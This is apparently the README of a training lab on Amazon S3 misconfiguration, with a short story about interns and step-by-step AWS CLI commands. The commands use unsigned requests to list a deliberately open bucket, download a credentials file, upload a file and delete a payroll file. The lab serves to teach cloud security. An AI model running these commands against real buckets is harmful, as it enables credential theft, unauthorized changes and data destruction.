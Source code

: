 # S3 Misconfiguration

## In the bustling corridors of Cloud Innovators, a cutting-edge tech organization, two interns named Alice and Bob joined the ranks. Eager to prove themselves, they were tasked with deploying S3 buckets to store important company files. Little did they know that their actions would set the stage for a cloud security saga. Alice created the bucket MisconfiguredBucket and Bob misconfiguredacl bucket

# Now that you've journeyed through the gripping story of Cloud Innovators, it's time for you, to immerse yourself as an attacker and how to act as defense in such scenarios in hands-on learning.

* Explore Misconfigurations in "MisconfiguredBucket":

Enter the realm of the misconfigured S3 bucket, "MisconfiguredBucket," where an attacker gained unauthorized access. Dive into the hands-on lab and discover how misconfigurations can lead to CRUD operations on sensitive files. Learn to secure your buckets against potential threats.

* Unravel the Mystery of "misconfiguredacl":

Venture into the kingdom of "misconfiguredacl," where Authenticated Users gained unintended FULL_CONTROL permissions. Engage in the lab to unravel the mystery, understand ACL misconfigurations, and fortify your buckets against unauthorized access.


## Follow the below instructions given to solve this Lab

### please install the below cli tools 


* AWS CLI

```bash
sudo apt-get install awscli
```
* Terraform - click on the below link for further help on on installing 

```bash
https://developer.hashicorp.com/terraform/tutorials/aws-get-started/install-cli
```

* Step 1 Clone the repository 

```bash
git clone https://github.com/bvabhishek/s3misconfiguration.git
```
* Step 2: Change Directory

```bash
cd s3misconfiguration/
```
* Step 3: Initialise terraform 

```bash
terraform init
```

* Step 4: Run `terraform apply -auto-approve`

```bash
terraform apply -auto-approve
```

* Step 5: Export bucket name created by Alice 

```bash
export s3bucket=<bucketname> 
```

* Step 6: Lets try to list down the contents of bucket

```bash
aws s3 ls s3://$s3bucket --no-sign-request
```

* Step 7: Know which geo location the bucket is hosted

```
 aws s3api get-bucket-location --bucket $s3bucket
```
* Step 7: Now lets perform all the possible attack scenarios

* Step 8: Lets first download the fishy files - to your current working directory

```bash
aws s3 cp s3://$s3bucket/creds.txt . --no-sign-request --region us-west-2

```
* To download all the files from the bucket use sync command

```bash
aws s3 sync s3://$s3bucket /home/abhi/seasides/test/
```

* Step 9: Let's upload a new file 

```bash
aws s3 cp seasides.jpeg s3://$s3bucket --no-sign-request --region us-west-2
```

* Step 10: Let's Delete a file 


```bash
aws s3 rm s3://$s3bucket/emp_pay_dont_delete.csv --no-sign-request --region us-west-2
```


* By this we know that the attacker has performed all the malicious functionalities ie, CRUD operations which leads to Vulnerabilities such as 
* Broken Authentication
* Sensitive Information Disclosure 
